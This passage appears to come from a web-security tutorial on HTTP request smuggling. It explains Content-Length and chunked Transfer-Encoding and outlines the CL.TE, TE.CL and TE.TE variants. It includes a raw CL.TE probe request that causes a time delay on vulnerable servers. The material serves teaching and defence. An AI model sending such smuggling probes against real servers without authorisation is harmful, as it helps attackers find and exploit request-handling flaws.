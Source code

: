 ```
POST /search HTTP/1.1
Host: normal-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
```

#### Transfer-encoding

The Transfer-Encoding header can be used to specify that the message body uses chunked encoding. This means that the message body contains one or more chunks of data. Each chunk consists of the chunk size in bytes (expressed in hexadecimal), followed by a newline, followed by the chunk contents. The message is terminated with a chunk of size zero. For example:

```
POST /search HTTP/1.1
Host: normal-website.com
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

b
q=smuggling
0
```

## Classic Smuggling Attack

Classic request smuggling attacks involve placing both the` Content-Length` header and the `Transfer-Encoding` header into a single HTTP/1 request and manipulating these so that the front-end and back-end servers process the request differently.

- `CL.TE`: the front-end server uses the Content-Length header and the back-end server uses the Transfer-Encoding header.

- `TE.CL`: the front-end server uses the Transfer-Encoding header and the back-end server uses the Content-Length header.

- `TE.TE`: the front-end and back-end servers both support the Transfer-Encoding header, but one of the servers can be induced not to process it by obfuscating the header in some way.

#### CL.TE

##### Probing CL.TE by Time Delay

If an application is vulnerable to the CL.TE variant of request smuggling, then sending a request like the following will often cause a time delay:

```
POST / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 4

1
A
X
```
Since the front-end server uses the Content-Length header, it will forward only part of this request, omitting the X. The back-end server uses the Transfer-Encoding header, processes the first chunk, and then waits for the next chunk to arrive. This will cause an observable time delay.
